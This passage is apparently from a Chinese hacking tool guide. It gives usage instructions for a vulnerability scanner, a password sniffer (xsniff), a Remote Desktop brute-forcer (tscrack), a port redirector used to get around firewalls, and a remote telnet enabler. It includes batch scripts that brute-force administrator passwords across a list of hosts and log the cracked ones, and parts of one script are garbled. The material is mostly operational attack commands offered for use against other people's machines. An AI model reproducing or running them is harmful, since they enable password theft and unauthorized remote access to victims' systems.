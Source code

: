xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
九：
命令行方式嗅探器： xsniff.exe
可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
参数说明
-tcp 输出TCP数据报
-udp 输出UDP数据报
-icmp 输出ICMP数据报
-pass 过滤密码信息
-hide 后台运行
-host 解析主机名
-addr IP地址 过滤IP地址
-port 端口 过滤端口
-log 文件名 将输出保存到文件
-asc 以ASCII形式输出
-hex 以16进制形式输出
用法示例
xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
终端服务密码破解： tscrack.exe
参数说明
-h 显示使用帮助
-v 显示版本信息
-s 在屏幕上打出解密能力
-b 密码错误时发出的声音
-t 同是发出多个连接（多线程）
-N Prevent System Log entries on targeted server
-U 卸载移除tscrack组件
-f 使用－f后面的密码
-F 间隔时间（频率）
-l 使用－l后面的用户名
-w 使用－w后面的密码字典
-p 使用－p后面的密码
-D 登录主页面
用法示例
tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
@if not exist ipcscan.txt goto noscan
@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
nscan
@echo 3389.txt no find or scan faild
（①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
@if not exist tscrack.exe goto noscan
@tscrack %1 -l administrator -w pass.dic >>rouji.txt
:noscan
@echo tscrack.exe no find or scan faild
（②存为hack.bat) （运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了）
hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
其它
Shutdown.exe
Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
fpipe.exe (TCP端口重定向工具） 在第二篇中有详细说明（端口重定向绕过防火墙）
fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
OpenTelnet.exe （远程开启telnet工具）
opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
ResumeTelnet.exe (OpenTelnet附带的另一个工具）
resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。